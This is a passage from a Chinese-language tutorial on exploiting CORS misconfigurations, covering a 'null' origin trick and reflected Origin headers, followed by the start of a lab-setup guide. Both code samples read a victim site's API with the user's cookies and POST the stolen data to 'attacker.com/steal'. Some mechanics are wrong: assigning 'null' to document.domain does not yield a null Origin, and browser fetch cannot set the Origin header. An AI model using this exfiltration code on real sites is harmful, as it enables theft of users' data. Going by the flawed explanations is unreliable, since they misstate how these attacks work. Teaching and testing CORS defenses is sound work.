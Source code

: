 **步骤**：
1. 构造恶意页面，设置`document.domain`为`null`。
2. 发起跨域请求，服务器响应`Access-Control-Allow-Origin: null`。
3. 攻击者通过恶意脚本窃取用户数据。

**示例代码**：
```html
<script>
  document.domain = 'null';
  fetch('https://vulnerable-site.com/api/data', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

### 3.2 利用`Origin`头反射

**描述**：服务器未验证`Origin`头，直接反射回`Access-Control-Allow-Origin`头，攻击者可以利用这一点发起跨域请求。

**步骤**：
1. 构造恶意请求，设置`Origin`头为攻击者控制的域名。
2. 服务器反射`Access-Control-Allow-Origin`头，允许跨域请求。
3. 攻击者通过恶意脚本窃取用户数据。

**示例代码**：
```javascript
fetch('https://vulnerable-site.com/api/data', {
  headers: {
    'Origin': 'https://attacker.com'
  },
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

## 4. 实验环境搭建指南

### 4.1 实验环境准备

**工具**：
- Node.js
- Express.js
- Chrome浏览器
